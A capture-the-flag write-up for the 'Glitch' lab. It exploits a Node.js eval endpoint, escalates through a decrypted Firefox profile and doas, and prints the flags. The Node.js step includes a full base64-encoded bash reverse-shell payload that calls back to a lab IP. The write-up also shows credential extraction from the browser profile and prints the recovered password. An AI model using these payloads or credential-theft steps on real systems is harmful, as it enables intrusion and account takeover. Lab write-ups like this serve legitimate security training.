## TL;DR

In this challenge we first find hidden service and exploit `node.js` with `eval` function to get `RCE` and shell as `user`.

We then find the password of `v0id` inside firefox profile located at our home folder.

Lastly we move to `root` using `doas` which exists for user `v0id`

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `80` with nginx http server
```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 62 nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: not allowed
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `glitch.thm` to my `/etc/hosts`.

### Find hidden service with node eval and get shell as user

I visited the main page, we can see the endpoint `/api/access`. I went there and saw some base64 token, which can be decoded:
```bash
┌──(agonen㉿kali)-[~/thm/Glitch]
└─$ echo -e 'dGhpc19pc19ub3RfcmVhbA==' | base64 -d                                                             
this_is_not_real
```



Then, I put this token inside of the token I have, and revisit the main page.



In the source code of `/js/script.js`, I found the endpoint `/api/items`.
Nothing too interesting, I checked for other http methods:



We can see it can excepts `POST` method.
I fuzzed to find hidden parameter:
```bash
┌──(agonen㉿kali)-[~/thm/Glitch]
└─$ ffuf -u 'http://glitch.thm/api/items?FUZZ=bla' -X POST -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://glitch.thm/api/items?FUZZ=bla
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

cmd                     [Status: 500, Size: 1080, Words: 55, Lines: 11, Duration: 150ms]
:: Progress: [6453/6453] :: Job [1/1] :: 239 req/sec :: Duration: [0:00:24] :: Errors: 0 ::
```

Okay, let's try to send something with `cmd` as url parameter:



It looks like it using `eval` behind the scenes. Let's send the payload for command execution, with the penelope payload:
```js
require('child_process').exec('printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzguNTkvNDQ0MyAwPiYxKSAm|base64 -d|bash')
```

we got our reverse shell as `user`



The user flag is:
```bash
user@ubuntu:~$ cat user.txt 
THM{i_don't_know_why}
```

### Find password of user v0id inside firefox profile

We can see the `.firefox` that contains profile of decrypted sessions from the browsing.



I downloaded the profile and used [https://github.com/unode/firefox_decrypt/](https://github.com/unode/firefox_decrypt/) to decrypt this:
```bash
┌──(agonen㉿kali)-[~/thm/Glitch/firefox_decrypt]                                                                                       
└─$ python3 firefox_decrypt.py b5w4643p.default-release                                                                                
2026-01-25 22:34:30,777 - WARNING - profile.ini not found in b5w4643p.default-release                                                  
2026-01-25 22:34:30,777 - WARNING - Continuing and assuming 'b5w4643p.default-release' is a profile location                           
                                                                                                                                       
Website:   https://glitch.thm                                                                                                          
Username: 'v0id'                                                                                                                       
Password: 'love_the_void'
```



Okay, we have the credentials:
```bash
v0id:love_the_void
```

we can move to user `v0id` using `su` with his password



### Privilege Escalation to Root using doas enabled to user v0id

I executed linpeas and found that user `v0id` can run commands as root using `doas`:



Let's test this:
```bash
v0id@ubuntu:~$ doas id
Password:  # love_the_void
uid=0(root) gid=0(root) groups=0(root)
```

Now, we can spawn root shell



and grab the root flag:
```bash
root@ubuntu:~# cat root.txt 
THM{diamonds_break_our_aching_minds}
```